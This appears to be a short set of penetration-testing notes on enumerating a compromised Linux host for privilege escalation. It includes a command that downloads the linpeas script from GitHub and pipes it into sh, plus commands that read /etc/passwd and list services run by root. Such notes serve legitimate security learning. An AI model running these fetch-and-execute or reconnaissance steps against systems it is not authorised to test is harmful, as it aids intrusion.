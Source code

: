 # Information Gathering - Linux Privilage Escalation

When we infiltrate a system, we should know how to escalate our privilages effectively. That means that we need to peform excellent enumeration on the target.

## Linpeas

Linpeas is a powerful enumeration script that looks for different ways to escalate privilages on Linux based systems. 

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh 	# runs linpeas on a target using curl
```

We'll have more documentation about Linpeas and it's usage in the future as it is definately is a relevent and powerful tool.

## OS Information

```
cat /proc/version	# kernel version
cat /etc/passwd		# lists system accounts
cat /etc/issue		# get distro
```

## Services

```
ps aux			# check which services are running
cat /etc/services	# list services
ps aux | grep root	# check which services are being run by root
```

## Installed Applications

```
ls -alh /usr/bin	# check installation, version, and status of applications
```
